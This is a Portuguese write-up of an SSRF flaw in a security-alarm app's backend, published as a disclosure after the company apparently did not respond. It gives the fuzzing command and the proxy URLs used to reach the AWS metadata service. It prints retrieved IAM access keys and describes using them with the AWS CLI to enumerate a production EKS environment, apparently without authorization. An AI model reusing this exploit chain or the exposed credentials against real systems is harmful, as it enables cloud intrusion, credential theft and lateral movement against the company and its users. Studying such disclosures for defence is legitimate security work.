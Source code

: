 
## 🛑 Vulnerabilidade: SSRF (Server-Side Request Forgery)

Por curiosidade, certo dia decidi interceptar a conexão de um comando feito por um app de um sistema de segurança. Notei que, ao desativar o alarme, eu recebia duas requisições:

A primeira era para `o98808.link-simbolico.us.sen.io`

A segunda para `http://security-server.simbolico.com.br`

O primeiro endereço não me chamou muita atenção por parecer ser um servidor em nuvem, como a AWS, o que é bem comum. Já o segundo me chamou bastante atenção — primeiro por ser um endpoint sem criptografia (HTTP), e segundo por aparentar ser um endpoint interno.

Acessei esse segundo endpoint para ver o que ele trazia, e a única coisa exibida na página era um JSON com a data e a hora atual. Isso me deixou ainda mais curioso e me perguntei: “por que só isso? Só data e hora?”. De início, imaginei que talvez fosse apenas para mostrar a hora em que o alarme foi desativado. Talvez eu estivesse certo, mas a curiosidade acabou me levando por outro caminho.

Resolvi fazer um fuzz na URL usando a ferramenta ffuf, com o seguinte comando:
`ffuf -u http://security-server.simbolico.com.br/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/Web-Servers/big.txt`

Um comando simples, mas que trouxe um impacto considerável.

A maioria dos endpoints retornou 404, como esperado — o servidor aparentemente bloqueava qualquer requisição externa. Mas um único endpoint teve um comportamento diferente:
http://security-server.simbolico.com.br/proxy

Esse não retornou 404, e sim um erro 400, o que indica que o endpoint existe e está esperando algum dado que não foi enviado corretamente. Outra coisa estranha: a resposta demorou cerca de 6 segundos (Duration: 6061ms), o que é muito tempo para um erro — sinal de que ele provavelmente estava tentando acessar algo e falhou.

O nome proxy já levantava uma suspeita de SSRF (Server-Side Request Forgery). Então testei com:
`http://security-server.simbolico.com.br/proxy?url=http://google.com`

E... bingo! O servidor trouxe a página do Google em HTML. Isso já era uma PoC clara.
O parâmetro url= estava sendo interpretado corretamente e o servidor redirecionava para o conteúdo de forma funcional.

Esse comportamento é típico de aplicações vulneráveis a SSRF, especialmente quando não há nenhum tipo de validação sobre o destino da URL.

O mais interessante é que não precisei usar usuário/senha, nem passar -x proxy no curl — era tudo direto. Isso mostra que não se tratava de um proxy tradicional (como um Squid, por exemplo), mas sim de um proxy implementado na própria aplicação web.

Esse tipo de implementação, sem autenticação e sem filtragem, é extremamente perigoso.
Então fui além.

Lembrei do primeiro endereço que parecia estar na AWS, e resolvi testar:

`http://security-server.simbolico.com.br/proxy?url=http://169.254.169.254`

Esse IP é reservado internamente pela AWS para expor metadados da instância EC2 — ou seja, só é acessível de dentro da própria nuvem. O fato de o servidor conseguir responder significa que eu estava conseguindo forjar requisições internas através da aplicação vulnerável.

Com isso, acessei:

`/proxy?url=http://169.254.169.254/latest/meta-data/`

E recebi como resposta uma lista de caminhos, como esperado da API de metadados da AWS. Isso confirmou sem dúvidas o SSRF com acesso interno à nuvem.

Seguindo a enumeração, acessei o caminho:

`/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/AmazonSSMRoleForInstancesQuickSetup`


E obtive como resposta credenciais temporárias de uma role IAM:

`{
  "AccessKeyId": "ASIATK764DKS64WMNJFL",
  "SecretAccessKey": "4Ubgj7Wr6PkyE8vsAQZuyiy3KZQDt4JErAeDBbLG",
  "Token": "...",
  "Expiration": "2025-05-29T15:30:31Z"
}
`
Com esses dados, configurei um perfil no AWS CLI com:

`aws configure --profile seg-ssrf`

E usei essas credenciais para explorar o ambiente com:

`aws ec2 describe-instances --profile seg-ssrf`


Resultado? Acesso completo à listagem de instâncias EC2!

As informações extraídas mostraram que:

A instância usa arquitetura x86_64, com volume EBS /dev/sda1

O IAM Role usado é AmazonSSMRoleForInstancesQuickSetup

A VPC é privada, com faixa IP 172.30.0.0/16

O grupo de segurança da instância se chama:
eks-cluster-sg-sigmax-prod-772457999

O nome sugere fortemente que se trata de um cluster Kubernetes via EKS.

A interface de rede tem tags como:

`{
  "aws:eks:cluster-name": "max-prod",
  "kubernetes.io/cluster/max-prod": "owned"
}`

Ou seja, a instância é parte de um cluster Kubernetes EKS em produção.

Segurança do Grupo de Segurança

O grupo de segurança analisado possui:

Porta TCP 32145 aberta para toda a VPC interna (172.30.0.0/16)

Permissão total (IpProtocol: -1) entre grupos de segurança (inclusive para grupos marcados como kafka)

Comunicação permitida para algumas portas específicas de monitoramento (Zabbix) e integração com ELBv2.

Isso mostra que o cluster possui comunicação lateral interna liberada, o que, combinado com a falha SSRF e credenciais IAM expostas, poderia permitir movimentação lateral e acesso a serviços internos sensíveis — como banco de dados, serviços internos, APIs privadas, e até pods do Kubernetes.

<ul>Essa exploração mostra claramente o risco real que uma falha SSRF mal protegida pode trazer em ambientes cloud:</ul>

<li>Extração de credenciais da AWS</li> 
<li>Acesso a instâncias EC2</li>  
<li>Mapeamento de estrutura interna (rede, roles, instâncias, VPCs, etc)</lil>  
<li>Possibilidade de pivoting lateral e persistência</li>

###

<p>A falha foi reportada diretamente à empresa responsável pelo sistema de segurança, com todos os detalhes técnicos necessários para correção. No entanto, não houve qualquer resposta ou iniciativa de mitigação por parte da empresa, mesmo após múltiplas tentativas de contato.

Dado o potencial crítico da vulnerabilidade e o risco que representa a usuários finais e à infraestrutura da nuvem da empresa, decidi documentar publicamente esta prova de conceito (PoC) para fins educacionais e de conscientização sobre segurança na nuvem.</p>
